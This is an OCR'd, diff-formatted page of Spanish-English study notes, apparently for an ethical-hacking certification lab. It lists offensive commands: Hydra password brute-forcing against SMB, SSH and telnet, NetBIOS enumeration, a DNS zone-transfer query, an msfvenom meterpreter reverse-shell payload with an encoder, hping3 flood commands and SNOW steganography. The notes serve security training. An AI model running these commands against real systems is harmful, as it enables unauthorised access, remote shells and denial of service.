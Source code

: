 
Hydra 
hydra -l USER_NAME -P password_file TARGET_IP smb 
smbclient //target_ip/ -U USER_NAME  
@@ -175,9 +201,10 @@ snow.exe -C -p “pass” file.txt

netbios  
cmd 
nbtstat –a 10.10.1.11 
nbtstat –
nbstat –c 
net use  
nmap -sU -p 137 --script nbstat.nse 192.168 ....


snmp walk 
@@ -189,6 +216,7 @@ Python3 billcipher.py
Dig  
Dig www.certifiedhacker.com axfr zona transfer 


Metasploit  
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -f exe (optional -e x86/shikata_ga_nai -b "\x00") LHOST=IP 
LPORT=PORT -o RUTA 
@@ -337,10 +365,7 @@ hping3 -d 65538 -S -p 21 --flood (Dirección IP de destino) -d : especifica el t
flood : envía una gran cantidad de paquetes. 
A inundación en capa de aplicación UDP 
hping3 -2 -p 139 --flood (Dirección IP de destino) -2 : especifica el modo UDP; -p : especifica el puerto de destino; y --flood : cantidad de paquetes. 
 
 
 
 

CharGEN (Puerto 19) 
SNMPv2 (Puerto 161) 
QOTD (Puerto 17) 
@@ -442,8 +467,11 @@ nmap -T4 -A -p 80,443 192.168.x.x/2x
hydra -L username_file -P password_file TARGET_IP telnet 
hydra -L username_file -P password_file TARGET_IP ssh 

DVWA


Stego 
https://stegonline.georgeom.net/upload
Select Extract Data 
Upload file and select path of destination 
Use any pointer from the question as keyword where applicable 
@@ -456,6 +484,27 @@ get file
View Content: 
cat file 

SNOW
http://darkside.com.au/snow
SNOW.EXE -C -m "hasan is my name" -p " magic" test.txt test2.txt
-m mensaje a ocuptar
-p passw
test.txt fila original 
test2.txt is la fila objetivo 
